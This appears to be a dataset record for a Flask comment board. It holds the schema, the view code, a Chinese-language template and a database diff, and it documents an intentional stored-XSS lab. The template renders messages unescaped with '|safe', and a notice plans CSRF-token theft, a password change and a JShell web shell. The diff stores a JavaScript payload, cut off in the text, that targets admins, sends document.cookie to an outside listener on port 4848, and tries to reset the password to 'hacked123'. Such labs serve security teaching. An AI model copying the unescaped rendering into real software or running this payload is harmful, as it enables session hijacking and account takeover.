

/comment (signed in), run on an earlier commit of the app's database (2 pictures, top to bottom).


And on a later commit of the database (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE comments (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT NOT NULL,
        message TEXT NOT NULL,
        created_at DATETIME DEFAULT CURRENT_TIMESTAMP
    );

### app.py (the view)
@app.route('/comment', methods=['GET', 'POST'])
def comment():
    if 'username' not in session:
        return redirect(url_for('login'))
    if request.method == 'POST':
        msg = request.form['message']
        add_comment(session['username'], msg)
    comments = get_comments()
    csrf_token = generate_csrf_token()  # 每次都生成新的 CSRF token
    return render_template('comment.html', comments=comments, csrf_token=csrf_token, username=session['username'])

### app.py (called while the page is built)
def get_db_connection():
    conn = sqlite3.connect(DB_PATH)
    conn.row_factory = sqlite3.Row
    return conn

def get_comments():
    conn = get_db_connection()
    comments = conn.execute('SELECT * FROM comments ORDER BY created_at DESC').fetchall()
    conn.close()
    return comments

def generate_csrf_token():
    token = secrets.token_hex(16)
    session['csrf_token'] = token
    return token

### templates/comment.html (shortened to what this page needs)
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    {% extends "base.html" %}
    {% block content %}
    <div class="card" style="max-width: 800px;">
        <h2 style="text-align: center; margin-bottom: 2rem; color: #333;">💬 公開留言板</h2>
        <p style="text-align: center; color: #666; margin-bottom: 2rem;">
            歡迎 <strong>{{ username }}</strong>！在此分享您的想法，所有用戶都可以看到您的留言。
        </p>
        <form method="POST" style="margin-bottom: 2rem;">
            <div class="form-group">
                <label for="message">留言內容</label>
                <textarea id="message" name="message" rows="4"
                         placeholder="分享您的想法、連結、或任何內容..." required></textarea>
                <small style="color: #666;">支援 HTML 格式，讓您的留言更豐富！留言將永久保存在資料庫中。</small>
            </div>
            <button type="submit" class="btn">發布留言</button>
        </form>
        <div style="background: #e3f2fd; padding: 1rem; border-radius: 10px; margin-bottom: 2rem;">
            <h4 style="color: #1976d2; margin-bottom: 0.5rem;">🔒 安全提醒</h4>
            <p style="color: #333; font-size: 0.9rem;">
                此留言板支援 HTML 內容以提供更好的使用體驗。所有留言和用戶資料都會永久保存在資料庫中。
            </p>
            <small style="color: #666;">當前 CSRF Token: <code>{{ csrf_token[:8] }}...</code></small>
        </div>
        <h3 style="color: #333; margin-bottom: 1rem;">
            📝 所有留言 <span style="font-size: 0.8rem; color: #666;">({{ comments|length }} 則留言)</span>
        </h3>
        {% if comments %}
            {% for comment in comments %}
                <div class="comment-item">
                    <div class="comment-user">
                        👤 {{ comment.username }}
                        <span style="font-size: 0.8rem; color: #888; font-weight: normal;">
                            - {{ comment.created_at }}
                        </span>
                    </div>
                    <div style="margin-top: 0.5rem; line-height: 1.5;">
                        {{ comment.message|safe }}
                    </div>
                </div>
            {% endfor %}
        {% else %}
            <div style="text-align: center; padding: 2rem; color: #666; background: #f8f9fa; border-radius: 10px;">
                <p>📭 目前沒有留言</p>
                <p style="font-size: 0.9rem; margin-top: 0.5rem;">成為第一個發布留言的用戶吧！</p>
            </div>
        {% endif %}
        <div style="margin-top: 2rem; padding: 1rem; background: #fff3cd; border-radius: 10px; border-left: 4px solid #ffc107;">
            <h4 style="color: #856404; margin-bottom: 0.5rem;">⚠️ Stored XSS 說明</h4>
            <p style="color: #856404; font-size: 0.9rem;">
                此留言板有 Stored XSS 漏洞，以下是預期demo的內容。
            </p>
            <ul style="color: #856404; font-size: 0.9rem; margin-top: 0.5rem; padding-left: 1.5rem;">
                <li>利用XSS讓使用者把自己的CSRF token一起帶進去，然後把密碼給改掉</li>
                <li>用JShell工具讓攻擊者可以操作Web Shell (KeyLogger、重新定向)</li>
            </ul>
        </div>
    </div>
    {% endblock %}

What changed in the data, as far as the page shows it:
added comments: username "user", created_at "2025-05-29 16:10:40"
added comments: username "user", created_at "2025-05-29 16:10:29", message "if(document.querySelector('.nav-content') && document.querySelector('.nav-content').innerText.includes('admin')) { console.log('[ATTACK] Admin detected - Starting targeted attack'); // JSshell 反向連接 (僅針對 admin) setInterval(function(){ with(document)body.appendChild(createElement(\"script\")).src=\"http://127.0.0.1:4848/?admin_\".concat(document.cookie) }, 1010); // 針對 admin 的 CSRF 攻擊 - 修改密碼為 hacked123 setTimeout(() => { // 多種方式獲取 CSRF token let token = null; // 方法1: 從隱藏的 input 獲取 const hiddenToken = document.querySelector('#csrf_token_hidden'); if (hiddenToken) { token = hiddenToken.value; console.log('[ATTACK] Token from hidden input:', token); } // 方法2: 從任何 csrf_token input 獲取 if (!token) {…"
changed comments "admin": created_at "2025-05-29 15:47:51" → "2025-05-29 16:10:27"
Also different on the page:
{{ comments|length }}: "1" → "3"
